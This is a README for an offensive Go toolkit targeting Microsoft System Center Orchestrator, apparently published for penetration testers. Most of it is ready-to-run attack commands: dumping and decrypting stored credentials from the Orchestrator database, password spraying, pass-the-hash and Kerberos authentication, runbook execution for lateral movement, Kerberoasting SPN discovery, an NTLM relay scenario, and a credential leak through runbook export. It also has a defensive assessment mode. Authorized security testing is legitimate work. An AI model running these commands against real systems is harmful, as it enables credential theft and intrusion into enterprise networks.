

# SCORCH

Offensive security toolkit for Microsoft System Center Orchestrator (SCORCH). Single binary, cross-platform, works from non-domain joined systems.

## Overview

System Center Orchestrator stores credentials for numerous enterprise systems (AD, SCOM, SCCM, VMM, Exchange, Azure) through Integration Packs. This toolkit provides comprehensive offensive capabilities:

- **Security Assessment** - Vulnerability scanning and misconfiguration detection
- **API Enumeration** - Discover runbooks, servers, folders, and jobs
- **Credential Extraction** - Extract and decrypt secrets from the database
- **Runbook Execution** - Execute automation with full parameter support
- **Password Spraying** - Credential validation at scale
- **Network Discovery** - Port scanning, LDAP enumeration, SPN discovery
- **Cross-Platform Auth** - NTLM, Pass-the-Hash, Kerberos, Basic auth from any OS

## Architecture



System Center Orchestrator consists of several components that present different attack surfaces:

| Component | Purpose | Default Port |
|-----------|---------|--------------|
| **Orchestration Database** | SQL Server storing runbooks, credentials, and encrypted secrets | 1433 |
| **Management Server** | Central coordination between components | - |
| **Runbook Server(s)** | Execute runbooks using stored credentials | - |
| **Web Service** | REST/OData API for remote management | 81 |
| **Web Console** | Browser-based management UI | 82 |

Credentials stored in the database are encrypted using SQL Server's native encryption (`ORCHESTRATOR_SYM_KEY`). Integration Packs for AD, SCOM, SCCM, VMM, Exchange, and Azure all store their connection credentials here.

**Reference:** [Microsoft SCORCH Architecture Documentation](https://learn.microsoft.com/en-us/system-center/orchestrator/learn-about-orchestrator)

## Installation

```bash
# Clone and build
git clone https://github.com/professor-moody/scorch.git
cd scorch
go build -o scorch ./cmd/scorch/

# Cross-compile for Windows
GOOS=windows GOARCH=amd64 go build -o scorch.exe ./cmd/scorch/

# Cross-compile for Linux
GOOS=linux GOARCH=amd64 go build -o scorch ./cmd/scorch/
```

The result is a single static binary with no external dependencies.

## Quick Start

```bash
# Security assessment (no auth required)
./scorch assess -target scorch.corp.local

# Enumerate with NTLM from Linux
./scorch enum -t scorch.corp.local -d CORP -u admin -p 'P@ssw0rd' -all

# Pass-the-hash
./scorch enum -t scorch.corp.local -d CORP -u admin -H aad3b435b51404eeaad3b435b51404ee -all

# Dump credentials from database
./scorch dump -t sqlserver.corp.local -db Orchestrator -decrypt -sensitive

# Network discovery and SPN enumeration
./scorch discover -t dc01.corp.local -d CORP -u admin -p Pass123 -all
```

## Commands

### assess - Security Assessment

Checks for common SCORCH security issues without authentication.

```bash
./scorch assess -target scorch.corp.local

# Output findings to JSON
./scorch assess -t scorch.corp.local -json -o findings.json
```

**Checks performed:**
- Anonymous API access
- Authentication methods (NTLM, Basic, Negotiate)
- NTLM relay attack surface
- TLS configuration
- Information disclosure headers
- CORS misconfiguration
- Swagger exposure

### enum - API Enumeration

Enumerate SCORCH resources via REST API.

```bash
# List all resources
./scorch enum -t scorch.corp.local -d CORP -u admin -p 'Pass123' -all

# Search for specific runbooks
./scorch enum -t scorch.corp.local -u admin -p Pass -search "backup"

# Find runbooks handling credentials
./scorch enum -t scorch.corp.local -u admin -p Pass -cred-search

# Get runbook details and parameters
./scorch enum -t scorch.corp.local -u admin -p Pass -id <guid>

# Export runbook (BUG: includes ALL encrypted global variables!)
./scorch enum -t scorch.corp.local -u admin -p Pass -export -id <guid> -o runbook.ois

# Scan job outputs for credential leakage
./scorch enum -t scorch.corp.local -u admin -p Pass -cred-leak

# Get execution statistics
./scorch enum -t scorch.corp.local -u admin -p Pass -stats
```

**Options:**
- `-all` - Enumerate runbooks, servers, folders, jobs, activities
- `-runbooks` - List runbooks only
- `-servers` - List runbook servers
- `-folders` - List folder structure
- `-jobs` - List recent jobs
- `-activities` - List all activities (credential discovery)
- `-events` - System events (audit log)
- `-stats` - Execution statistics
- `-search <query>` - Search runbooks by name
- `-cred-search` - Find credential-handling runbooks by keyword
- `-cred-leak` - Scan job outputs for credential leakage patterns
- `-export -id <guid>` - Export runbook (**leaks ALL encrypted variables!**)
- `-id <guid>` - Get specific runbook details

### exec - Runbook Execution

Execute runbooks with parameters.

```bash
# Execute by ID with NTLM authentication
./scorch exec -t scorch.corp.local -d CORP -u admin -p Pass \
    -id 12345678-1234-1234-1234-123456789012 \
    -params "ServerName=DC01,Action=Restart" -wait

# Execute by name (will search for matching runbook)
./scorch exec -t scorch.corp.local -d CORP -u admin -p Pass \
    -name "Restart Server" -params "Target=webserver01"

# Pass-the-hash execution
./scorch exec -t scorch.corp.local -d CORP -u admin \
    -H aad3b435b51404eeaad3b435b51404ee \
    -name "Deploy Updates" -wait

# Kerberos authentication
./scorch exec -t scorch.corp.local -kerberos -realm CORP.LOCAL \
    -u admin -p Pass -name "Backup Database" -wait

# Fire and forget (don't wait for completion)
./scorch exec -t scorch.corp.local -d CORP -u admin -p Pass \
    -id 12345678-1234-1234-1234-123456789012
```

**Execution Options:**
- `-id` - Runbook ID (GUID)
- `-name` - Runbook name (will search and prompt if multiple matches)
- `-params` - Parameters as `Name=Value,Name2=Value2`
- `-wait` - Wait for runbook completion (polls status)

### dump - Credential Extraction

Extract credentials from SCORCH database.

```bash
# Show database info
./scorch dump -t sqlserver.corp.local -info

# Extract and decrypt all credentials
./scorch dump -t sqlserver.corp.local -all -decrypt

# Show plaintext passwords
./scorch dump -t sqlserver.corp.local -all -decrypt -sensitive

# SQL authentication
./scorch dump -t sqlserver.corp.local -u sa -p 'SqlPass!' -all -decrypt
```

**Requirements:**
- Network access to SQL Server (port 1433)
- For decryption: `Microsoft.SystemCenter.Orchestrator.Runtime` or `Admins` database role

### spray - Password Spraying

Test credentials against SCORCH web service.

```bash
# Spray from user list with NTLM
./scorch spray -t scorch.corp.local -d CORP \
    -users users.txt -pass 'Summer2024!'

# Multiple passwords with delay (avoid lockouts)
./scorch spray -t scorch.corp.local -d CORP \
    -users users.txt -passwords passes.txt -delay 30s

# Parallel threads for faster spraying
./scorch spray -t scorch.corp.local -d CORP \
    -users users.txt -pass 'Winter2024!' -threads 5

# Stop on first success
./scorch spray -t scorch.corp.local -d CORP \
    -users users.txt -pass 'Pass!' -stop

# Quick test with specific creds (comma-separated)
./scorch spray -t scorch.corp.local -d CORP \
    -user admin,svc_orch,backup -pass 'P@ssw0rd,Welcome1'
```

**Spray Options:**
- `-users` - File with usernames (one per line)
- `-user` - Single username or comma-separated list
- `-passwords` - File with passwords (one per line)
- `-pass` - Single password or comma-separated list
- `-delay` - Delay between attempts (e.g., `30s`, `1m`)
- `-threads` - Number of concurrent threads (default: 1)
- `-stop` - Stop on first success

### discover - Network Discovery

Discover SCORCH infrastructure via port scanning, LDAP enumeration, and SPN discovery.

```bash
# Port scan for SCORCH-related services
./scorch discover -t scorch.corp.local -ports

# Full discovery (ports + LDAP + SPNs)
./scorch discover -t dc01.corp.local -d CORP -u admin -p Pass123 -all

# LDAP enumeration for SCORCH accounts/computers
./scorch discover -t dc01.corp.local -d CORP -u admin -p Pass123 -ldap

# SPN discovery for Kerberoasting targets
./scorch discover -t dc01.corp.local -d CORP -u admin -p Pass123 -spn -json
```

**Discovery Options:**
- `-ports` - Scan SCORCH-related ports (81, 82, 443, 1433, 389, 636, 88, 135, 445, 5985/6)
- `-ldap` - Enumerate LDAP for SCORCH service accounts, computers, and groups
- `-spn` - Discover HTTP/* and MSSQLSvc/* SPNs for Kerberoasting
- `-all` - Run all discovery methods
- `-dc` - Specify Domain Controller (default: target)
- `-base-dn` - Override LDAP base DN (default: auto-detect)

**Note:** LDAP/SPN enumeration requires password authentication. Pass-the-hash is not supported for LDAP.

### version

Display version information.

```bash
./scorch version
# scorch v1.0.0
```

## Authentication

### From Non-Domain Joined Systems

The toolkit is designed to work from Linux or non-domain Windows:

| Method | Flags | Notes |
|--------|-------|-------|
| Anonymous | (none) | Test unauthenticated access |
| Basic | `-u user -p pass` | HTTP Basic auth |
| NTLM | `-d DOMAIN -u user -p pass` | Windows NTLM |
| Pass-the-Hash | `-d DOMAIN -u user -H nthash` | NTLM with NT hash |
| Kerberos | `-kerberos -u user -p pass -realm REALM` | Kerberos with password |
| Kerberos (ccache) | `-kerberos` + KRB5CCNAME env | Uses existing ticket cache |
| Kerberos (keytab) | `-kerberos -u user -keytab /path/to/file` | Uses keytab file |

### Kerberos Options

| Flag | Description |
|------|-------------|
| `-kerberos` | Enable Kerberos/SPNEGO authentication |
| `-realm` | Kerberos realm (defaults to uppercase domain) |
| `-kdc` | KDC address (optional, uses krb5.conf/DNS if not set) |
| `-keytab` | Path to keytab file |
| `-ccache` | Path to credential cache file |

**NTLM from Linux:**
```bash
# Uses go-ntlmssp for cross-platform NTLM
# IMPORTANT: Use NetBIOS domain name (CORP), not FQDN (corp.local)
./scorch enum -t scorch.corp.local -d CORP -u admin -p 'Password123' -all

# Debug authentication issues
./scorch enum -t scorch.corp.local -d CORP -u admin -p 'Password123' -debug
```

**Pass-the-Hash:**
```bash
# Use captured NT hash instead of password
./scorch enum -t scorch.corp.local -d CORP -u admin \
    -H aad3b435b51404eeaad3b435b51404ee -all
```

**Kerberos with password:**
```bash
# Authenticate with username/password
./scorch enum -t scorch.corp.local -kerberos -u admin -p 'Password123' -realm CORP.LOCAL -all
```

**Kerberos with existing ticket:**
```bash
# Get TGT first
kinit admin@CORP.LOCAL

# Use existing ticket cache (automatic detection via KRB5CCNAME)
export KRB5CCNAME=/tmp/krb5cc_1000
./scorch enum -t scorch.corp.local -kerberos -all

# Or specify ccache path explicitly
./scorch enum -t scorch.corp.local -kerberos -ccache /tmp/krb5cc_1000 -all
```

**Kerberos with keytab:**
```bash
# Use service account keytab
./scorch enum -t scorch.corp.local -kerberos -u svc_scorch -keytab /etc/svc.keytab -realm CORP.LOCAL -all
```

### Database Access from Linux

For credential extraction, go-mssqldb supports:
- SQL Server authentication (username/password)
- Kerberos (if kinit configured)

```bash
# SQL auth - works from any platform
./scorch dump -t sqlserver.corp.local -u sa -p 'Password!' -all

# Kerberos from Linux (requires kinit first)
kinit admin@CORP.LOCAL
./scorch dump -t sqlserver.corp.local -all
```

## Output Options

All commands support:

| Flag | Description |
|------|-------------|
| `-json` | JSON output format |
| `-o file` | Write to file |
| `-q` | Quiet mode (suppress status) |
| `-debug` | Debug output |

## Common Flags

| Flag | Short | Description |
|------|-------|-------------|
| `-target` | `-t` | Target server |
| `-port` | `-P` | Port (81 for API, 1433 for SQL) |
| `-tls` | | Use HTTPS |
| `-skip-verify` | `-k` | Skip TLS verification |
| `-timeout` | | Request timeout (default: 30s, e.g., `1m`, `60s`) |
| `-username` | `-u` | Username |
| `-password` | `-p` | Password |
| `-domain` | `-d` | Domain for NTLM (use NetBIOS name, not FQDN) |
| `-hash` | `-H` | NT hash for PTH |

## Vulnerability Reference

| ID | Severity | Finding |
|----|----------|---------|
| SCORCH-ANON-001 | CRITICAL | Anonymous API access |
| SCORCH-AUTH-001 | MEDIUM | NTLM without EPA |
| SCORCH-AUTH-002 | HIGH | Basic auth over HTTP |
| SCORCH-RELAY-001 | HIGH | NTLM relay attack surface |
| SCORCH-TLS-001 | HIGH | HTTP (unencrypted) access |
| SCORCH-TLS-002 | HIGH | Weak TLS (1.0) |
| SCORCH-CORS-001 | MEDIUM | Permissive CORS |
| SCORCH-INFO-001 | LOW | Server version disclosure |

## Attack Scenarios

### 1. Unauthenticated Reconnaissance
```bash
./scorch assess -t scorch.corp.local
# Check for anonymous access, weak TLS, NTLM relay conditions
```

### 2. Credential Harvesting (with SQL access)
```bash
./scorch dump -t sqlserver.corp.local -all -decrypt -sensitive -json -o creds.json
# Extract SCOM, VMM, SCCM, Exchange credentials
```

### 2b. Credential Harvesting via Runbook Export (API only)
```bash
# CRITICAL BUG: Any runbook export includes ALL encrypted global variables!
./scorch enum -t scorch.corp.local -u admin -p Pass -runbooks  # Get any runbook ID
./scorch enum -t scorch.corp.local -u admin -p Pass -export -id <guid> -o export.ois
# Parse export.ois for encrypted variables, decrypt offline
```

### 3. Lateral Movement via Runbooks
```bash
# Execute runbook that uses stored credentials
./scorch exec -t scorch.corp.local -d CORP -u user -p pass \
    -name "Deploy to Server" -params "Target=dc01.corp.local" -wait
```

### 4. NTLM Relay (if vulnerable)
```bash
# 1. Assess shows NTLM over HTTP without EPA
./scorch assess -t scorch.corp.local

# 2. Set up relay with ntlmrelayx
ntlmrelayx.py -t ldap://dc01.corp.local

# 3. Coerce auth to relay (SpoolSample, PetitPotam, etc.)
```

## Technical Details

### Encryption
SCORCH uses SQL Server native encryption:
- `ORCHESTRATOR_ASYM_KEY` → `ORCHESTRATOR_SYM_KEY` → encrypted data
- Format: `` `d.T.~De/[hex_data]`d.T.~De/ ``

### API Endpoints
| Version | Base URL |
|---------|----------|
| Pre-2022 (OData) | `/Orchestrator2012/Orchestrator.svc/` |
| 2022+ (JSON) | `/api/` |

### Default Ports
| Port | Service |
|------|---------|
| 81 | Web Service/API |
| 82 | Web Console |
| 1433 | SQL Server |

## References

- [Fox-IT Orchestrator Decryption](https://github.com/fox-it/Decrypt-OrchestratorSecretVariables)
- [Microsoft SCORCH Documentation](https://learn.microsoft.com/en-us/system-center/orchestrator/)
- [SpecterOps NTLM Relay Research](https://posts.specterops.io/the-renaissance-of-ntlm-relay-attacks)

## Disclaimer

For authorized security testing only. Obtain proper authorization before use.
